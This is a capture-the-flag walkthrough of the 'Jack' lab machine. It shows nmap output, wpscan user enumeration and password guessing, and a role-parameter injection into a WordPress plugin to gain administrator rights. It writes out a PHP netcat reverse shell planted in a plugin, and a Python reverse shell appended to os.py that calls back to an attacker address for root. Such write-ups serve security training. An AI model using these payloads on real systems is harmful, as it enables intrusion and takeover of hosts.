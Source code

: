 # Jack

## NMAP

```
Nmap scan report for 10.10.201.61
Host is up (0.16s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/11%OT=22%CT=1%CU=40110%PV=Y%DS=5%DC=T%G=Y%TM=61139F9
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   33.61 ms  10.17.0.1
2   ... 4                                                                                                                                                                                     
5   153.50 ms 10.10.201.61                                                                                                                                                                    
                                                                                                                                                                                              
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                         
Nmap done: 1 IP address (1 host up) scanned in 517.10 seconds    
```

## Finding usernames /wp-admin/

`wpscan -e u,ap --url http://jack.thm`

Save the usernames found in users.txt

## Find Password

`wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url jack.thm`

We got password of wendy cracked.

lets login to http://jack.thm/wp-admin/

## Getting reverse shell

1. We can exploit either using metasploit https://www.exploit-db.com/exploits/44595.
Or we can exploit manually with burpsuite and escalate privilege to administrator.
2. Go to profile.
3. Intecept the traffic using burpsuite. Click on update.
4. In burpsuite, add `&ure_other_roles=administrator` before `&action..` at the end and forward the traffic.
5. Now we are administrator.
6. Go to plugin > plugin editor.
7. Add `<?php rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.10.196 1234 >/tmp/f ?> at the beginning pf the file.
8. save the file.
9. Start nc listner.
10. Activate the edited plugin and we have reverse shell.

## Privilege Escalation to Jack

In `/var/backup` we have a file `rsa_id` we can use it to ssh as jack.

## Privilege Escalation to root

1. Use pspy64 to find cronjob and we  found checker.py.
2. While investigating checker.py uses os module. 
3. Jack is in a group family. When using `find / -group family -ls 2>/dev/null` jack have write access to all python2.7 files.
4. Add the below code to the end of `os.py` file:
```
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.17.10.196",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
5. Start a nc listener and wait for a while.
6. Now we are root.

***

